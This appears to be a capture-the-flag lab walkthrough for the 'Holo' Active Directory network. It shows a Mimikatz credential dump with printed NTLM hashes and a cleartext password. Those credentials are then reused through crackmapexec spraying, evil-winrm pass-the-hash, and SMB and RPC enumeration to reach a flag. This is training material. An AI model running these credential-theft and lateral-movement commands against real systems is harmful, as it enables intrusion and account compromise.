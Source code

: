 
Let's run Mimikatz
```
http://10.51.9.13/mimikatz/x64/
```

```
python3 -m http.server 80
```

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

```
privilege::debug
```

```
sekurlsa::logonpasswords
```

```
Username : S-SRV01$
NTLM     : 3179c8ec65934b8d33ac9ec2a9d93400
HA1     : fb4789d7ac8f1b2a46319fcb0ae10e616bd6a399
```

```
Username : watamet
NTLM     : d8d41e6cf762a8c77776a1843d4141c9
SHA1     : 7701207008976fdd6c6be9991574e2480853312d
DPAPI    : 300d9ad961f6f680c6904ac6d0f17fd0

Username : watamet
Domain   : HOLO.LIVE
Password : Nothingtoworry!
```


![[Pasted image 20240830041056.png]]


```
crackmapexec smb 10.201.11.31 -u valid_user.txt -p Nothingtoworry!
```


```
evil-winrm -u administrator -H 3179c8ec65934b8d33ac9ec2a9d93400 -i 10.201.11.35
```


```
evil-winrm -u watamet -password Nothingtoworry! -i 10.201.11.35
```

That didn't worked but we should always try for little hanging fruits
```
rdesktop -u watamet -p Nothingtoworry! 10.201.11.30
```

Read/Write
```
crackmapexec smb 10.201.11.30 -u 'watamet' -p 'Nothingtoworry!' --shares
```
![[Pasted image 20240830043757.png]]

```
smbclient \\\\10.201.11.30\\SYSVOL -U 'watamet' 
```

-p 'Nothingtoworry!'


```
crackmapexec smb 10.201.11.35 -u 'watamet' -p 'Nothingtoworry!' --shares
```
![[Pasted image 20240830044707.png]]

Finally RPC worked
```
rpcclient -U "watamet" 10.201.11.30
```

```
rpcclient $> srvinfo
        10.201.11.30   Wk Sv PDC Tim NT     
        platform_id     :       500
        os version      :       10.0
        server type     :       0x80102b

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[ad-joiner] rid:[0x457]
user:[spooks] rid:[0x45a]
user:[cryillic] rid:[0x45b]
user:[PC-MGR] rid:[0x45c]
user:[SRV-ADMIN] rid:[0x45f]
user:[a-koronei] rid:[0x462]
user:[a-fubukis] rid:[0x466]
user:[koronei] rid:[0x467]
user:[fubukis] rid:[0x468]
user:[matsurin] rid:[0x469]
user:[mikos] rid:[0x46a]
user:[okayun] rid:[0x46b]
user:[watamet] rid:[0x46c]
user:[gurag] rid:[0x46d]
user:[cocok] rid:[0x46e]
user:[ameliaw] rid:[0x46f]
user:[WEB-MGR] rid:[0x470]
```


```
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x456]
```


So from the data we have gathered it's either Relay attack or Pass the hash

```
crackmapexec smb 10.201.11.0/24 -u Administrator -d . -H 3179c8ec65934b8d33ac9ec2a9d93400
```

```
crackmapexec smb 10.201.11.0/24  -u 'watamet' -p 'Nothingtoworry!'
```

![[Pasted image 20240830142532.png]]

```
crackmapexec smb 10.201.11.35 -u 'watamet' -p 'Nothingtoworry!' --shares
```
![[Pasted image 20240830142737.png]]

```
smbclient //10.201.11.35/Users -U watamet --password='Nothingtoworry!'
```

The above command didn't worked

```
smbclient //10.201.11.35/Users -U watamet -W holo.live
```
![[Pasted image 20240830143400.png]]


```
HOLO{2cb097ab8c412d565ec3cab49c6b082e} 
```

